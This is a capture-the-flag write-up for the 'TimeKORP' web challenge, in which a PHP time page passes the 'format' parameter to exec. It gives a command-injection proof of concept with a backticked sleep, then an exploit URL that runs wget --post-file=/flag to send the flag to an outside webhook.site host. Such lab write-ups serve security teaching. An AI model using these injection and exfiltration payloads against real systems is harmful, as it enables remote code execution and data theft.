

# Web - TimeKORP

## Description
> Are you ready to unravel the mysteries and expose the truth hidden within KROP's digital domain? Join the challenge and prove your prowess in the world of cybersecurity. Remember, time is money, but in this case, the rewards may be far greater than you imagine.

## Walkthrough

In this challenge we were given a web instance and the source code.

I looked at the website and saw a small page showing us the time.


At the top left we have two menus: "What's the time" and "What's the date?".

If we click on these, we see parameters with formatting settings as it looks.

__URL:__ `http://<IP>:<PORT>/?format=%Y-%m-%d`


I played around with the parameters briefly and noticed that sometimes we get nothing displayed, or we can also influence the formatting, such as being able to specify the year 3 times.

__URL:__ `http://<IP>:<PORT>>/?format=%Y-%Y-%Y`


Ok, let's take a look at what the whole thing looks like behind the scenes and take a look at the code.

__File:__ `TimeController.php`


__File:__ `TimeModel.php`


### Solution

Ok, we can see that `exec` is being used in the background and we can pass user input via the `format` GET parameter.

It quickly becomes clear that we are probably dealing with an __RCE vulnerability__ here.

__POC:__

```
http://<IP>:<PORT>/?format=%Y-%Y-%Y'`sleep 3`'#
```
And then I retrieved the flag with the help of [webhook.site](https://webhook.site) and `wget`.

__Exploit:__
```
http://<IP>>:<PORT>/?format=%27`wget%20%20--post-file=/flag%20https://webhook.site/<ID>`%27#
```

__Flag:__




